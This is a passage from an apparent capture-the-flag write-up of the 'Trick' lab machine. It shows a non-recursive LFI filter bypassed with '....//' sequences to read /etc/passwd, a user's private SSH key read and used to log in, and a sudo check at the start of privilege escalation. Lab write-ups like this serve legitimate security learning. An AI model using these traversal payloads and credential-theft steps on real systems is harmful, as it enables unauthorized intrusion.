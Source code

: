 The index.php uses a protection against `LFI` by removing any `../` in the request.

The problem with this prevention is that it's not recursive, we can easily bypass it by using `....//`.

To read the `/etc/passwd` we can using the following payload.

```terminal
....//....//....//....//....//....//....//etc/passwd
```

![passwd](6.png).

## **Foothold**

Looking at the `/etc/passwd` file we see only one user exist `michael`. Let's try read his private ssh key.

![key](7.png)

We got it, let's connect with it.

```terminal
┌──[10.10.16.4]-[sirius💀parrot]-[25-07-07 11:31]-[/tmp/driver]
└──╼[★]$ vim id_rsa    

┌──[10.10.16.4]-[sirius💀parrot]-[25-07-07 11:31]-[/tmp/driver]
└──╼[★]$ chmod 600 id_rsa                                                                               

┌──[10.10.16.4]-[sirius💀parrot]-[25-07-07 11:31]-[/tmp/driver]
└──╼[★]$ ssh -i id_rsa michael@trick.htb  
Linux trick 4.19.0-20-amd64 #1 SMP Debian 4.19.235-1 (2022-03-17) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
michael@trick:~$ 

```

## **Privilege Escalation**

Let's check our privileges.

```terminal
michael@trick:~$ sudo -l
Matching Defaults entries for michael on trick:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User michael may run the following commands on trick:
    (root) NOPASSWD: /etc/init.d/fail2ban restart
michael@trick:~$ id
uid=1001(michael) gid=1001(michael) groups=1001(michael),1002(security)
```
